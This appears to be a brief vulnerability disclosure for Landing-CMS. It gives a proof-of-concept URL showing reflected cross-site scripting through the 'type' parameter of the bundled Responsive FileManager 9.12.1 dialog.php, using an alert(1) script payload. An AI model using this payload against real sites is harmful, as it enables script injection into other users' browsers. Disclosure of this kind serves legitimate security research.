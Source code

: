 # Landing-CMS Cross Site Scripting.md

## POC:
http://192.168.101.109/assets/vendor/responsive_FILEMANAGER_9.12.1/filemanager/dialog.php?editor=4&type="><script>alert(1)</script>&lang=en_EN&popup=0&crossdomain=0&field_id=&relative_url=0&akey=key&fldr=&5fa41120a4485

![img](https://github.com/fortest-1/vuln/edit/main/Landing-CMS/Landing-CMS/img/1.png)
